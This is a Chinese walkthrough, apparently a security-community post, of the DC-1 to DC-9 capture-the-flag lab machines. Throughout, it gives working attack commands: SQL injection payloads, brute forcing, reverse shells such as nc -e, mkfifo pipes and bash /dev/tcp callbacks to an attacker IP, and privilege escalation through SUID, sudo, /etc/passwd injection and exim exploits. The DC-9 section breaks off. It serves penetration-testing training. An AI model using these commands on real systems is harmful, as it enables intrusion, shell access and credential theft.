# DC1~9解析-先知社区

> **来源**: https://xz.aliyun.com/news/16142  
> **文章ID**: 16142

---

## DC-1

首先要找到靶机的地址，这里是虚拟机内网地址，所以很好找，但是正常是要用到 nmap的  


这里看到192.168.193.135地址开启了80端口，我们的靶机就是这个地址，再通过nmap来详细的看一下这个靶机的详细信息

```
nmap -A 192.168.193.135
```



这里可以看到是开启了22端口和80端口还有111端口，22端口可以尝试一下爆破

```
nmap --script=ssh-brute 192.168.193.135
```



没有爆破到，那么就再来看看80端口的页面有没有突破口



这里可以尝试一下弱口令，然后发现也没什么东西，那就可以去看看注册和忘记密码了，这里注册发现要审核，估计是不可以了



这里忘记密码也是不行，也是通过发邮件的方式



可以再去看看接口有什么泄露



这里在js中也是没有发现什么接口的泄露，那么就再去扫一扫目录  
节省时间，这些可以一起做。在这里目录也是没有扫到什么有用的东西。  
这个时候就可以再去看一看cms或者中间件有没有什么突破了。



这里的cms是 Drupal ，可以去看看有没有什么历史漏洞，这里发现是有漏洞的



这里在msf里面查询选择这个漏洞

```
search drupal
```



然后连接我们的网站ip

```
set RHOSTS http://192.168.193.135/
run
```

然后也是成功的连接上去了



这里要用一个 shell 命令，要不然很多命令不能够执行



然后这里已经可以拿到一个flag1了，里面给了个提示，提示说：每一个好的cms都需要一个配置文件，你也是



这里我们可以先搞一个交互shell

```
python -c 'import pty;pty.spawn("/bin/sh")'
```


有了交互 shell 会方便很多，前面提示我们去到配置文件那里。  
在Drupal 中，配置文件在

```
/var/www/sites/default/settings.php
```

这里我们直接来看看配置文件的内容，这里出现了flag2，给出了提示说暴力破解不是获取权限的唯一方式，而且在下面我们也发现了数据库的账户密码


那么我们就可以尝试着查看数据库了，这里也是成功来到了数据库



其中有两个数据库



这里来到 drupaldb 看看其中有什么表，看看找到web端的管理员权限密码



在这里也是成功的找到了admin的账户密码，甚至还有自己之前注册的两个账户，因为拿不到密码登录不上的



---

这里额外的来看一下 node 的表，可以拿到flag；这里为什么要查看 node 的表呢，drupal 的框架，其中node的机制

```
【1】根据结构的功能结构的不同，drupal划分为，node,user,comment等不同的结构，他们的结构是不同的。他们可以作为四个不同的抽象类，根据这个抽象类，分别有一套hook函数去控制实现的流程。分别有一套theme函数对应一套展示界面。

【2】用户、区块和评论不是节点。在这些特定的数据结构中，为了适应它们各自的特定目的，它们每一个都拥有自己的钩子系统。

节点是一段内容，有相同的结构，也有不同的部分，相同的部分用保持一致，不同的部分用不一个字段去标识。用面向对象的方法去理解节点，节点是一个抽象类，而博客，论坛等具体的功能性站点里的东西可以视作节点的实例化。

节点是一段内容（a piece of content），它是网站内容的基本组成单元。网站上的主要内容是由一个个节点组成的。通过观察网站上发布的各种内容（如新闻、博客、论坛帖子等），可发现它们都有如下的共同特性：

需要一个唯一的ID用于标识这个节点；

都有标题和内容；

需要记录发布时间、修改时间和发布者。

用面向对象的分析问题的方法，可以将这些内容进行抽象出一个“节点类”，节点类具有最基本的属性，而其他类（如博客文章、论坛主题等）均继承自此类，增加一些专属的属性。因此，可以认为Drupal网站中的每个节点是节点类的一个实例。

如图3-1所示为一个网站中的节点类的实例。可以看到，每个节点类除了标题、内容、发布者等共同的属性外还有专属属性。使用这样的图对网站内容进行分析是一种很好的方法。
```

---

```
图3-1 节点类结构图

由于节点的共性，Drupal为节点的创建和编辑准备了相同的页面，这样使管理员可以在一个页面中完成全部节点的创建。

content type

内容类型（Content type）就是在抽象层次上对节点的一个归类，如上面提到的新闻和博客文章，是两种不同的内容类型。不同内容类型的文章用于不同的使用场景。每一个节点都必须属于某个内容类型，一个内容类型下可以有多个节点。

Drupal默认提供两种内容类型：页面（Page）和故事（Story）。这两者没有实质的区别，只是在显示时，故事节点会显示节点的发布信息， 如时间和发布者等；但页面不会显示。页面经常用于存储如“公司介绍”等介绍性文字信息；而故事通常用于存储如“站点新闻”、“公告”等内容，且在浏览时可 显示发布者和发布时间等信息。

Drupal的后台管理有“内容类型”管理功能，管理员可以创建新的内容类型并设置每个内容类型具有哪些属性。除标题、内容属性外，还提供了诸如是 否支持评论、是否开启版本控制等功能选项。同时，在内容类型的设置中可以对节点的三个基本属性——是否发布在首页、是否置顶和是否发布——有选择地开启。

但是，像3.1节如图3-1所示描述的“新闻节点类”，除了基本属性外，还需要“文中插图”这个额外的属性。这时需要使用第三方模块Content Construction Kit（简称为CCK）提供的为节点增加字段的功能。
```

---

这里接着，拿到了的admin的 hash 值，很明显是不能够进行直接登录的，想要解开原本的密码有两个方法

1. 注册一个账户将两者的hash互换就可以了(这里很明显不能够注册)
2. 找到加密的脚本自己加密一个  
   在这个cms 中加密脚本在下面这个目录下面，正常的话可以通过 find / -name pass\* 来查询




再就是利用这个脚本自己把密码拿到



那么我们就可以去到数据库当中去把自己拿到的密码替换一下就ok了，这里要注意的是要使用这个脚本只能在www的目录下，然后php 使用

```
php scripts/passwrod-hash.sh admin
$S$DeJENChbGzXmqiWHeWP15OhPLXcZersPejLwZRC4T5iGDAG5WgwM
```

进入到数据中以后，先选择数据库，然后再更新admin账户的密码

```
update users set pass='$S$DeJENChbGzXmqiWHeWP15OhPLXcZersPejLwZRC4T5iGDAG5WgwM' where name='admin';
```



显示已经更新成功了



那么我们就可以去web端登录了



登录以后提示我们说要寻找密码，而且提示在shadow，我们查看shadow发现要权限



我们可以先查看一下passwd



发现了一个flag4的用户，那么我们来到这个目录下面就找到了flag4.txt ，这里提示说是不是可以使用相同的方法在根目录找到flag，这里就要提权了，毕竟只有提权才能够看到 shadow文件  
这里采用的是 suid 提权：



SUID是set uid的简称，它出现在文件所属主权限的执行位上面，标志为 s 。当设置了SUID后，UMSK第一位为4。我们知道，我们账户的密码文件存放在/etc/shadow中，而/etc/shadow的权限为 ----------。也就是说：只有root用户可以对该目录进行操作，而其他用户连查看的权限都没有。当普通用户要修改自己的密码的时候，可以使用passwd这个指令。passwd这个指令在/bin/passwd下，当我们执行这个命令后，就可以修改/etc/shadow下的密码了。那么为什么我们可以通过passwd这个指令去修改一个我们没有权限的文件呢？这里就用到了suid，suid的作用是让执行该命令的用户以该命令拥有者即root的权限去执行，意思是当普通用户执行passwd时会拥有root的权限，这样就可以修改/etc/passwd这个文件了。  
已知的可用来提权的linux可行性的文件列表如下：

```
nmap,vim,find,bash,more,less,nano,cp
```

发现系统上运行的所有SUID可执行文件

```
不同系统适用于不同的命令
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```



**尝试查看 find 是否有 suid 权限** 因为这里是有执行root权限，所以可以进行提权

```
/usr/bin/find /tmp -exec whoami  \;
```



-exec 参数后面跟的是command命令，它的终止是以;为结束标志的，所以这句命令后面的分号是不可缺少的，考虑到各个系统中分号会有不同的意义，所以前面加反斜杠。-exec参数后面跟的就是我们想进一步操作的命令。我们可以以root的权限命令执行了。  
这里采用的方式是去反弹一个shell，当然 find 和执行命令，我们也可以返回一个 root的netcat 的后门。

```
/usr/bin/find ./aaa -exec '/bin/sh' \;
```

这里首先要自己创建一个aaa的文件  
  
直到这里就拿到了最高权限了

## DC-2

首先依旧是先使用 namp 进行ip的端口的扫描，做一个简单的信息收集，也是可以使用其他工具的。

```
nmap -A -p- #强力扫描
```



这里直接访问ip是访问不到的，所以要改一下本地的 hosts 文件解析，同时在Linux 当中也是要改掉的



kali 中 hosts 的目录在 /etc/hosts 文件



打开一看，就发现了一个flag



这个flag提示说，通常的词汇表可能行不通，也就是说自己的字典可能行不通，或许可以试试用 cewl 来获取密码， 用一个账号登录来拿到下一个flag 这里说一下什么是 cewl 是通过爬行网站获取关键信息创建一个密码字典



同时这个网页的 cms 是 WordPress 打开这个网站的时候就可以注意到了



这里通过 cewl 命令来获取密码字典

```
cewl http://dc-2/index.php/flag/ -w 1.txt
```



因为提示了说是让登录，那我们需要先找到登录的页面，所以可以先进行目录扫描



最后找到了这个登录页面



上面提示说可以试试其他用户登录，这里提示说用户名不存在，说明是存在用户名枚举的，所以可以先进行一下用户名枚举



这里可以使用kali中 自带的 wpscn 进行用户名枚举 ，这里是出来了三个用户名

```
wpscan --url http://dc-2 -e u
这个选项告诉 WPScan 执行特定的枚举操作。`-e` 是 `--enumerate` 的缩写，而 `u` 代表用户（users），即命令将尝试枚举出目标网站上存在的用户账户信息。
```



那么这里得到了账户就可以利用刚刚得到的密码进行爆破了，尝试爆破以后发现admin账户登录不上，但是jerry账户拿到了密码



而且tom用户也拿到了密码



然后我都登录尝试以后发现只有在 jerry 账户下有flag2



这里又给了一个提示


这里也是用了其他 cms 的漏洞，没有拿到shell，这里也提示说不能够通过 cms 直接拿到shell了，那么可以想想主机端了。这里可以看到提示 7744 端口是ssh，其他的也没有什么端口，那么就拿之前拿到了账户密码去试试，或者去爆破了



然后登录发现，也是成功的登录了，但是发现有 -rbash的限制，说明权限很低，这里连读文件都不可以



这里就可以利用到一个方法 rbash 逃逸 (提权方法的一种)  
首先先来看看 rbash 限制之后能够有哪些操作，可以看到就四个可以使用，less ls scp vi

```
ehco $PATH #显示当前用户的环境变量
```



唯一有用的就只有vi（编辑器）这个命令，这里可以里用vi或者是BASH\_CMDS设置shell来绕过rbash，然后再设置环境变量添加命令  
vi 设置 shell  
首先打开 vi 界面，然后 esc 冒号输入

```
:set shell=/bin/bash
```


然后回车,再次输入回车，这里如果直接退出就是成功了

```
:shell
```

然后就可以看到权限变成了 bash了，但是依旧是不可以使用 cat 的，这是因为环境变量的原因，只要去用命令添加两个路径就可以了



```
export PATH=$PATH:/bin/
expott PATH=$PATH:/usr/bin/
```



这时候就可以使用了的  
**这里还有方法二**：**BASH\_CMDS 设置 shell**  
这里发现也是可以的



这里flag3说tom和jerry ，这个jerry就很明显就是前面我们爆出来的账户密码，这里我们可以尝试 su 切换一下

```
jerry adipiscing
```



这里也是成功的切换过来了,这里就可以去找一下flag了，最快速的方法，也是成功的找到了

```
find / -name *fla*
```



这里来看一下提示，好了，提示说让我们自己找，但是还是有一个 git 的


这里发现只有 flag4.txt 的这个文件有权限，其他我呢见都没有权限了，那么采用 suid 提权  
首先下来看看有哪些二进制文件可以用

```
find / -user root -perm -4000 -print 2>/dev/null
```


这里发现并没有能够使用的，那么就不能用 suid 提权的方式提权了，其实上面也提示了，让使用git提权

```
sudo -l
它允许用户查看自己在 `sudoers` 文件中配置的权限。 这个命令非常有用，因为它可以列出当前用户被允许执行的命令以及不能执行的命令。 当你需要确认自己是否有权限执行某个特定的 `sudo` 命令时，使用 `sudo -l` 可以提供这些信息。 这个命令只有在 `sudoers` 文件中配置的用户才能使用。
```


这里发现git是有root权限的，有两种提权方法  
一、

```
sudo git help config
```

回车然后输入

```
!/bin/bash
```


回车后就发现到了root权限了  
二、

```
sudo git -p help
!/bin/bash
```


这里回车以后就发现到了root权限，这时候就可以再通过命令找一下flag了

```
find / -name *fla*
```


这里也是成功完成了

### tips

git 提权  
一、利用 git 帮助页面的缓冲区溢出漏洞提权  
这个是根据 git 的版本，如果 git 版本较低存在 缓冲区溢出漏洞就可以在帮助页面输入

```
!/bin/sh
```

从而在不需要输入root密码的情况下进行提权

二、滥用 sudo 配置不当  
如果这个命令不需要密码，攻击者就可以在命令执行的过程中输入 /bin/sh 来获取root权限

```
sudo git help config
```

## DC-3

首先还是要检查一下地址，看一下基本信息

```
nmap -A -p- 192.168.193.137
```

这里可以看到一些基本的信息


这里我们可以直接去看web端了，这里提示只有一个flag，没有提示了，应该是必须要拿到root权限了


这里我们试了弱口令，发现没有试出来，那么就可以直接去扫目录看看了


这里找到了后台的登录页面，发现弱口令也是没进去，那么尝试着去打cms历史


这里去找找历史漏洞


这里发现cms 是joomla 那么就可以使用一个工具，joomscan 来进行扫描


这里也是拿到了后台登陆界面，同时知道了具体版本是 3.7，那么就可以利用工具去找具体的版本漏洞尝试了

```
searchsploit joomla 3.7.0
```


这里可以看到存在两个漏洞的提示信息，一个xss，一个sql注入，因为我们打靶机是以shell为主，肯定是要用sql注入的，这里要注意的是kali的 exploits 的路径在

```
/usr/share/exploitdb/exploits
exp的路径就在后面标着的
```


这里有手工注入的payload，也有sqlmap注入的，这里可以看到sqlmap也是成功的拿到了数据库

```
sqlmap -u "http://192.168.193.137/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```


也可以用手工注入，这里发现在这个参数中发现是报错注入


```
extractvalue(666,concat(0x3a,version(),0x3a))--+
```


这里就可以看到版本，然后接着把当前数据库注出来

```
extractvalue(666,concat(0x3a,database(),0x3a))--+
```


然后去查询 information表

```
UpdateXML(2, concat(0x3a,(SELECT(concat(TABLE_SCHEMA,0x3a,TABLE_NAME))FROM(information_schema.tables) LIMIT 0,1),0x3a),1)--+
```


这里可以使用bp去抓包爆破一下表，这里可以看到都是可以拿到表名的


这里其实用sqlmap比较方便

```
sqlmap -u "http://192.168.193.137/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering] --batch
```


这里跑出来了很多表，所以我们肯定要去看 users 的表，这里要注意的是不能添加 --batch 自动选择，因为会报错

```
sqlmap -u "http://192.168.193.137/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" --columns
```

流程根据提示输入就可以了，y y 1 10


这里也是报出了几个字段的，那么就去看 username 的字段和 password 的字段了

```
sqlmap -u "http://192.168.193.137/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" --columns -C "username,password" -dump
```


也是拿到了账户密码，不过拿到是加密的密码，所以这里可以使用一个工具来把密码爆破出来 john，本地密码爆破

```
vi admin_hax.txt
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
john admin_hax.txt
```


这样就成功的拿到了admin的账户密码了，成功登录


然后经过找功能点以后，找到了一个文件上传的地方


  
我们可以先随便上传个文件来试试

  
这里随便传了一个文件发现，返回发现，目录是在 templae beez3，那么我们可以来看看，在源码中可以看到这个文件的位置，那么就可以直接去上传试试了

  
同时，这里还发现了一个目录遍历的漏洞


接下来用蚁剑生成一个免杀shell,这里发现并不是上传，可以是在这里选择一个目录直接创建的


那么这里既然找到了目录，就可以直接去连接尝试了


这里生成的免杀shell是要使用base64的

  
然后就直接去执行命令来看看权限了，很明显是比较低的一个权限了

  
这里操作不是很方便，可以反弹shell到自己的shell上面，这里监听 55555

```
nc -lvvp 55555
```


然后使用目录进行连接，发现成功反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.233.130 55555 >/tmp/f
```

  
那么再去创建一个交互shell

```
python -c 'import pty;pty.spawn("/bin/sh")'
```

交互shell搞不出来，所以采用php代码的方式去写反弹shell

```
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.193.128/55555 0>&1' ");?>
```

  
这里要注意的是需要再次找到你的木马文件访问一次才可以反弹成功

  
然后再进行一下简单的信息收集

```
hostnamectl
```

  
可以得到的是 ubuntu 16.04 ，这里就可以使用 searchsploit 去找合适的提权脚本了

```
searchsploit ubunto 16.04
```

  
可以用这个试试，因为这个适应的版本比较多的，所以这里直接来查看，这里如果记不得可以用命令

```
find / -name 39772.txt
```

```
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

这里就已经找到了

  
这里就可以根据这个文档去找提权脚本进行提权了  
这里使用的是在攻击机kail上面开启了一个apache2 服务，然后把提权脚本放到上面，再用反弹的shell去下载，然后就可以用了，这里需要注意的是，只能在 /var/www/html/templates/beez3 目录下才能够下载，因为其他目录是没有权限下载的

```
sudo systemctl start apache2
```

检查服务是否启动了

```
sudo systemctl status apache2
```

  
因为 服务都是在 /var/www/html 目录下面的，所以就可以直接把提权脚本放到这个目录下面

```
sudo cp 39772.zip .
```

这里给 39772.zip 上一下权限

```
sudo chmod +777 39772.zip
```

这里再到 dc-3 上面去执行 wget 下载下来

  
这里其实也可以直接在蚁剑上面上传，只不过一开始没有搞明白目录权限问题，就没有传上去，后面发现是可以传的

  
再把 39772.zip解压，来到其目录下面，然后再解压 exploit.tar

```
tar -xvf exploit.tar
```

  
  
这里提权脚本在html的目录下能够运行，在其他目录好像是不能够成功提权的。

### tisp

利用了 joomla cms 的 CVE-2017-8917

```
joomla 3.7 SQL Injection(CVE-2017-8917)
```

提权利用了 CVE-2016-4557

## DC-4

首先一样的，进行探活，然后收集一些基本信息

```
nmap -A -p- 192.168.193.138
```

  
这里可以看到是开启了 ssh 的，再来看看 web 端

  
这里只有一个登录框，看了一下指纹探测发现没有什么cms，这里就只是一个登录框

  
那么就来扫一下目录吧

  
看了扫的目录也没有什么东西，那么就只能尝试一下爆破了，提示说管理员登录，那么就直接去爆admin，我的字典问题，没爆出来。

  
但是这里是看到是爆出来的，可能这个靶场就是要靠爆破出来

```
admin
happy
```

  
这里成功登录，进来发现可以运行命令


  
这里抓包看看，确实是一个命令执行。

  
所以我们修改命令试试，发现是一个低权限的账号

  
可以了，来试试反弹shell

```
nc 192.168.193.128 4444 -e /bin/bash
```

  
这里也是成功的反弹shell了，再开一个交互shell

```
python -c "import pty; pty.spawn('/bin/bash');"
```

  
成功获取交互shell，那么接下来就该提权了，先收集一下系统信息

```
hostnamectl
```

  
这里看到的是 Linux 4.9.0 这个版本，就去看一下有没有相关的内核漏洞提权

  
但是没有找到合适了，那么就再试试 suid 提权，先找一下 suid 的文件

```
find / -perm -u=s 2>/dev/null
```

  
然后，发现也没有什么可以提权的命令，这个时候就再去看看home目录下面有什么用户吧

  
发现有三个用户，再分别看看他们当中有没有什么文件  
  
这里发现就只有 jim目录下面有两个文件，所以先来看看这个文件

  
到里面的 baskups 目录下面找到了一个 旧密码的内容，那么就可以尝试去爆破一下 这个账户的 ssh

```
hydra -l jim -P ./jmp.txt 192.168.193.138 ssh
jibril04
```

  
然后也是得到了密码，就直接去 ssh 登录  
  
也是成功的连接上来了，先看一下sudo授权，没有什么可以利用的

```
sudo -l
```

  
再看看其中的文件

  
是一个邮件，那么说明是有邮件系统的

```
cd /var/spool/mail
```

  
看到说它去旅游去了，老板让把密码给它，下面是密码，那么就是用这个密码去切换到它的账户上面

```
su charles
^xHhA&hvim0y
```

这里再看一下有没有什么可用的

  
然后就发现无密码可以执行 teehee  
这个命令可以往一个文件内追加内容，那么就用这个命令往 /etc/passwd 写入内容，新增一个超级用户

```
echo "hack::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```


  


其实这里还有一种提权方式，suid

```
find / -user root -perm -4000 -print 2>dev/null
```

  
发现了这个东西，去看看它的版本  
  
发现是 4.89 版本的，这里去找一下漏洞，这里可以提权  
  
看到这里可能就是合适的，来试试，这里也是把文件放到了kali开的服务器当中，然后就直接下载了  
  
不过其他没有权限，这里是来到了 /tmp 目录下面有权限

```
chmod +x 46996.sh
```

  
这里是发现 exp 报错了  
执行脚本的时候提示 “/bin/bash^M: bad interpreter: No such file or directory” 的错误是由于脚本文件是 dos 格式，即每一行结尾以 \r\n 来标识，而 unix 格式的文件结尾以 \n 来标识  
可以用

```
cat -A 46996.sh
```

这里如果结尾是 ^M$ 所以是 dos 格式，因为 unix 各位的文件行尾为 $  
解决办法：可以用命令来解决，直接把文件转换为 unix 格式

```
sed -i "s/\r//" 46996.sh
```

这里就可以成功拿到 root 权限  


### tips

有时候爆破也挺重要的  
邮件系统是在这个目录下面

```
/var/spool/mail
```

## DC-5

首先来找到ip，然后收集一些基本的信息

```
nmap -A -p- 192.168.193.139
```

  
看到开启了 111 （rpcbing 2-4）和 40764 端口，再来对web端的指纹识别一下

```
whatweb http://192.168.193.139/
```

  
这里没发现什么东西，再扫一下目录，看看有没有什么东西

  
这里只找到了提交文档的地方  
  
这里提交数据发现了下面的版本变为了2018，会变成个页面版本。  
  
而且每次刷新都会变化，这里找到了之前扫目录得到的页面，发现也是刷新就会变化，所以觉得是用了文件包含，包含了这个页面。  
  
在这里fuzz这个file参数，发现确实是可以包含的  
  
在前面，我们发现是nginx的站，就可以知道日志在什么地方了

```
/var/log/nginx/error.log
```

  
这里发现确实是可以包含的，那么就可以尝试日志污染了,先写入phpinfo试一下  
  
这样去写入phpinfo可以包含，那么说明也是可以去写入一句话的，这里就可以尝试写入一句话木马了  
  
  
这里就再去试试能不能执行命令了  
  
确实可以，那么就可以直接去反弹shell

```
nc -e /bin/bash 192.168.193.128 4444
python -c "import pty; pty.spawn('/bin/bash');"
```

  
成功拿到shell剩下就是提权了

```
hostnamectl
```

  
发现是Linux 3.16.0-4-amd64

```
searchsploit Linux 3.16.0
```

  
这里可以看到有一个exp，试了不行。  
再试试 suid 提权

```
find / -user root -perm -4000 -print 2>/dev/null
```

  
发现有一个这个东西，那么就去找找漏洞

```
searchsploit screen 4.5.0
```

  
发现第一个，放到自己开的服务器上面就可以了  
这里看到这个我文件的内容，这里有提权方式  
  
这里让生成两个文件，然后按照上面的编译命令去编译就可以拿到权限

## DC-6

首先依旧是做一些简单的信息收集

```
nmap -A -p-
```

  
可以看到开启了22端口  
再看看web端  
  
这里需要做一个host本地绑定  
  
然后就可以访问了，同时发现是 wordperss 5.1.1 版本的  
  
那么这里就可以直接用wpsan 去看一下有没有历史漏洞之类的

```
wpscan --url "http://wordy/" -e u
```

  
可以看到找到了一些用户名，这里再进行一下目录扫描尝试一下  
  
这里就找到了后台登录的地方了  
  
其实在下载靶机的地方有一个提示，因为爆破这个东西看字典，所以我们可以用这个字典可能更好一些  
  
这里我们用 wpscan 来爆破可能会更好一些

```
cat /usr/share/wordlists/rockyou.txt | grep k01 >passwd.txt
wpscan --url "http://wordy/" -U dc-6.txt -P passwd.txt
```

  
这里可以看到已经爆破到了账号密码，那么就可以直接去登陆看看了  
  
在后台呢，发现有一个可以执行命令的地方  
  
  
那么这里就是很明显的了，可以尝试去做命令执行试试，这里要注意的是要点一下 lookup 才会把详细信息拿到  
  
那么这里就可以直接去做一个反弹shell 了，这里我们发现了一个前端限制了输入字符的数量，所以我们就可以直接右键然后删除这个内容就可以输入了

```
nc -e /bin/bash 192.168.193.128 4444
```

  
然后就可以看到是反弹成功了

```
127.0.0.1|nc -e /bin/bash 192.168.193.128 4444
```

  
再做一个交互shell

```
python -c "import pty; pty.spawn('/bin/bash');"
```

这里就可以看到已经完成了  
  
再做一个简单的信息收集

```
hostnamectl
```

  
再去看看家目录下面有几个用户

```
cd /home
ls -l
```

  
可以看到有4个用户，再去看看每个家目录下面有什么  
  
再看看里面的内容有什么东西  
  
最后只发现，这个用户下有个东西文件，说添加了一个用户

```
graham
GSo7isUM1D4
```

那么我们可以尝试直接ssh连接一下  
  
发现可以成功的连接，这里再来看一下有没有sudo 授权文件尝试提权

```
sudo -l
```


这里发现这里可以无密码使用 backups.sh 脚本  
  
这里把这个东西去做一个反弹shell

```
echo "nc -e /bin/bash 192.168.193.128 4444" >> backups.sh
./backups.sh
```

然后再以去反弹shell到自己的上面

```
sudo -u jens /home/jens/backups.sh
```

  
  
这里kali也是成功的拿到了权限  
  
然后通过写一个执行文件

```
echo 'os.execut("/bin/sh")' > shell.sh
```

然后利用 nmap 去执行

```
sudo nmap --script=shell.sh
```


## DC-7

首先还是收集目标信息

```
nmap -A -p-
```

  
这里可以看到是开启了22端口和80的，那么就可以直接去访问这个网站了  
  
一些基本信息

```
whatweb url
```

  
这里有一个登录界面  
  
试一下爆破，发现超过5次就自动封锁了。这里再去扫一下目录

```
python dirsearch.py -u "http://192.168.193.141" -x 404
```

  
然后扫到了几个目录查看发现并没有什么东西，但是看到了cms的具体版本  
  
那么去看看有没有什么可以利用的历史漏洞

```
searchsploit Drupal 8.7.6
```

  
这里发现了一个提示

  
这里就说明有一些别的东西在外面了，这里我们在学信息收集的时候就会知道一个事情，在github上面可能会存在信息泄露，那么我们可以去github上面找一下

  
这里就找到了源码，还有配置文件，里面还有一个账户  
  
那么我们可以尝试登录试一下，但是我们不知道这个是那个地方的账户密码，所以我们都可以试一遍  
这里经过尝试以后发现是 ssh 的登录密码，因为我们在前面信息收集的时候发现ssh也是开启了的  
  
这里也是成功的拿到了这个用户，这里就可以想着去提权到 user 用户了，首先做一下简单的信息收集  
  
这里发现了一个来自 root@dc-7 用户发送的邮件，说明是有邮件服务的，那么就去看看邮件目录下面有什么  
  
这里提示的是数据库转储保存在了

```
/home/dc7user/backups/website.sql
```

还提供了一个文件路径

```
/opt/scripts/backups.sh
```

这里去看一下backups.sh的这个文件

  
这里本来打算往这个文件内写入shell试试的，发现并不能写入  
  
再看看无密码可以操作哪些，发现没有给到sudo授权，再来看看 suid 提权

```
find / -perm -4000 2>/dev/null
```

  
这里我们可以尝试去找一下 exim4 的提权，这里发现是有一个符合的

```
searchsploit exim 4
```

  
这里把sh文件放到kali自己开的服务上面，然后在靶机上面下载

```
wget http://192.168.193.128/46996.sh
```

  
这里再给脚本加上权限

```
chmod +x 46996.sh
```

  
这里执行失败是因为文件的格式是 DOS 格式了，所以就会导致执行失败，这里换为Linux的格式就可以了

```
sed -i "s/\r//" 46996.sh
```

但是这里执行后发现并不能拿到shell，说明还是有问题的，虽然是跟 DC-4一样的，但是并不能拿到root权限  
  
那么就需要注意别的方法了，这里还是要放在那个脚本上面  
  
经过查询才知道，这个是一个shell接口，用于从云服务器命令行管理Drupal，但是要在web的目录下执行，也就是 /var/www/，这里呢是可以用 drush 更改密码的，所以我们可以尝试用这个命令去改admin的密码了

```
drush user-password admin --password="admin"
```

  
那么就可以去web端登录了，这里成功的登录，因为前面的爆破，这个账户被锁定了，所以又从新解压安装了一遍虚拟机  
  
这里会发现有一个上传点，试试  
  
这里尝试上传以后发现也是不可以的，再看一下插件界面有没有命令执行，发现并不支持html  
  
后面去查了一下发现 drupal 8 版本为了安全把php模块移除了，想要支持php必须要去下一个模块  
  
  
这里用 url 安装php模块

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

  
这里也是成功的安装了，要点第二个确认启动模块  
  
这个时候就可以使用php了，就可以去添加代码了  
  
  
  
这里就可以去添加一个一句话代码  
  
然后去连接一下  
  
成功的连接，然后去做一个反弹shell

```
nc -e /bin/bash 192.168.193.128 4444
```

  
成功的拿到了 www-data 的权限了，这里就可以利用上面那个 sh 文件了  
  
可以看到这个文件属于 root 用户，www-data 的组，所以就可以做一个反弹shell来弹到root权限

```
echo "nc -e /bin/bash 192,168.193.128 4444" >> bakcups.sh
```

  
这里从www-data 弹到root就可以了  
  
这里要注意的是，谁执行了这个 ./backups.sh 就反弹的是谁的权限，  
  
  
这里可以看到时间，是 root 用户每15分钟就执行一次这个脚本，所以如果我们想要反弹root用户的话，就直接写入反弹的命令，等待root用户自己执行了

## DC-8

首先还是通过nmap来看一下基本信息  
  
看到是开启了 80 和 22 ，这里去web端看一下  
  
发现还是这个 cms ，来扫目录看一下  
  
这里也没有发现什么东西  
  
这里也不能去爆破。看一下指纹  
  
这里是 drupal 7，可以去看看有没有什么历史漏洞  
  
后面在扫到的目录里面看到了这个，具体版本  
  
这里尝试以后发现也没有什么能够利用的，不能打 cms ，那就只能去看看接口了  
  
看了这个插件发现东西，可以去看看  
  
这里发现了一个sql注入  
  
这里成功的注出来了，紧接着就去拿到账户密码了

```
sqlmap -u "http://192.168.193.143/?nid=1" --batch --dbs -D d7db --tables
```

  
这里看到了表，去看看users表的内容

```
sqlmap -u "http://192.168.193.143/?nid=1" --batch --dbs -D d7db --tables -T users --dump
```

  
有账户密码，但是这里不太好看，还是先看一下它的字段吧

```
sqlmap -u "http://192.168.193.143/?nid=1" --batch --dbs -D d7db --tables -T users --columns
```

  
这里可以看到字段的内容，选 name 和pass 来看

```
sqlmap -u "http://192.168.193.143/?nid=1" --batch --dbs -D d7db --tables -T users --columns —C name pass -dump
```

  
这里就拿到了账户密码了，只不过是加密的，这里要用通过一个本地的解密工具了

```
john
```

  
这里爆 admin 的密码没有爆出来，那就只能用这个登录

```
john
turtle
```

  
登录以后在后台发现是可以填写php代码的，这个时候就可以写反弹shell了

```
system("nc -e /bin/bash 192.168.193.128 4444")
这里要访问一下/node/3/done 界面才可以去反弹，因为要执行这里的php代码
```

  
做一个交互shell

```
python -c "import pty;pty.spawn('/bin/sh')"
```

  
拿到权限以后再看一下基本信息  
  
这里就试试看有没有 suid 提权了

```
find / -perm -4000 -type f 2>/dev/null
```

  
这里发现了熟悉的 exim 4，我们来看一下具体是什么版本的

```
exim4 --version
```

  
可以看到是 4.89 版本的，这里去找一下提权脚本

```
searchsploit exim 4.89
```

  
这里没有发现本地提权的脚本，我们可以扩大搜索范围去查一下  
  
然后就发现了一个这个，我们把脚本放到自己在kali搭建的服务里面，然后去下载

```
wget http://192.168.193.128/46996.sh
```

  
这里必须要到 /tmp 目录下面才可以下载，因为其他目录没有权限，然后再给这个脚本给到执行权限  
  
这里执行会发现，执行不了，是因为文件的格式问题，这里文件是 dos 格式的，用下面的命令清楚一下就可以了

```
sed -i "s/\r//" 46996.sh
```

  
这里执行命令

```
./46996.sh -m netcat
```

就可以拿到权限  
  
这里是根据脚本的内容用 -m netcat 方式来完成的

## DC-9

这里去找到主机，收集主机的一些基本信息  
  
这里来看一下web 界面  
  
看一下指纹信息

```
whatweb
```

  
这里没有发现什么东西，那么就再来扫一下目录  
  
这里拿到了一些邮箱和手机号  
  
发现扫出来的目录都是点击页面得到的  
  
在这里有一个搜索页面，我们来看看有什么东西  
  
发现通过搜到name 前面的一部分可以搜到内容，很有可能有sql注入，这里来试一下  
  
这里发现这样就不会有数据回显  
  
但是这样就会有数据回显，说明是有sql注入的

```
sqlmap -r ./postsql.txt --batch --dbs
```

  
这里看到是有一个users的，那么就可以直接来看看了

```
